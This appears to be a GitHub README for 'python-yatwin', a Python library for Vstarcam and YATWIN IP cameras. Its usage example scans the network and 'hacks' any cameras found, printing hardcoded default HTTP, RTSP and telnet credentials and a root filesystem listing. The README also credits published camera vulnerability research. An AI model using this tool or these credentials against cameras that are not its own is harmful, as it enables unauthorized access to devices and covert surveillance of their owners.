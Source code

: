 # python-yatwin

## Python 3 API for Vstarcam and YATWIN IP Cameras (Windows)

![C24H Black 720P WiFi IP Camera](http://pro646f20.pic37.websiteonline.cn/upload/xch2.jpg)

-----------------------------------

### Tested on the following cameras:
Camera | Link
------ | ----
C24H Black 720P WiFi IP Camera | http://www.yatwintech.com/Products-list-detail.html?product_id=56
Vstarcam C7824WIP-Plus 720P | https://www.vstarcam.com.sg/Smart-IP-Cameras/Indoor/C7824WIP-Plus
Vstarcam C24S-Plus FullHD 1080P Wide Angle Camera | https://www.vstarcam.com.sg/Smart-IP-Cameras/Indoor/Vstarcam-C24S-Plus-FullHD-1080P-Wide-Angle-Camera

-----------------------------------

### Getting started:

```python
>>> import yatwin.scripts
>>>
>>> # Scan network and hack any cameras it finds
>>> cams = yatwin.scripts.hack_cameras()
>>> cams
[<BaseHackedYatwin
(
	http:      <Http(admin:888888@192.168.1.223:80)>
	icmp:      <Icmp(192.168.1.223)>
	onvif:     <Onvif(admin:888888@192.168.1.223:10080)>
	telnet:    <Telnet(vstarcam2017:20170912@192.168.1.223:23)>
	ftp:       None
	multicast: <Multicast()>
	imap:      None
	rtsp:      <Rtsp(admin:888888@192.168.1.223:10554)[udp/av1_0]>
)>]
>>>
>>> # Pick the first camera
>>> cam = cams[0]
>>> 
>>> # Access the cameras Telnet interface
>>> cam.telnet
<Telnet(vstarcam2017:20170912@192.168.1.223:23)>
>>> print(cam.telnet.ls())
bin            init           mknod_console  root           tmp
boot           lib            mnt            sbin           usr
dev            linuxrc        nfsroot        share          var
etc            lost+found     opt            sys
home           mkimg.rootfs   proc           system
>>>
>>> from pprint import pprint
>>>
>>> # Get the cameras RTSP parameters using HTTP
>>> pprint(cam.http.get_rtsp())
{<SystemParam(rtspport)>: 10554,
 <SystemParam(rtsppwd)>: '888888',
 <SystemParam(rtspuser)>: 'admin',
 <SystemParam(rtsp_auth_enable)>: 1}
>>> 
```

-----------------------------------

### Python libraries that were of great help:

Name | Link
---- | ----
python-onvif-zeep | https://github.com/FalkTannhaeuser/python-onvif-zeep
Requests | https://github.com/requests/requests
vlc-python | https://github.com/geoffsalmon/vlc-python
Beautiful Soup | https://www.crummy.com/software/BeautifulSoup/
python-ws-discovery | https://github.com/andreikop/python-ws-discovery
pyffmpeg | https://github.com/mhaller/pyffmpeg
python-nmap | https://xael.org/pages/python-nmap-en.html
OpenCV | https://opencv.org/

-----------------------------------


### Resources that were of great help:

Name/Organisation | Resource
---- | ----
Pierre Kim | https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html
4dpa.ru | https://4pda.ru/forum/lofiversion/index.php?t782299.html
David Lodge | https://www.pentestpartners.com/security-blog/hacking-the-ip-camera-part-1/
Z | https://jumpespjump.blogspot.com/2015/09/how-i-hacked-my-ip-camera-and-found.html

-----------------------------------

### Software that was of great help:

Software | Link
-------- | ----
Sonic Visualiser | https://sonicvisualiser.org/
Audacity | https://www.audacityteam.org/
Google Chrome | https://www.google.com/chrome/
PuTTY | https://putty.org/
FileZilla | https://filezilla-project.org/
Atom | https://atom.io/
Python | https://www.python.org/

-----------------------------------

Total cameras harmed in the making of this code: **1**
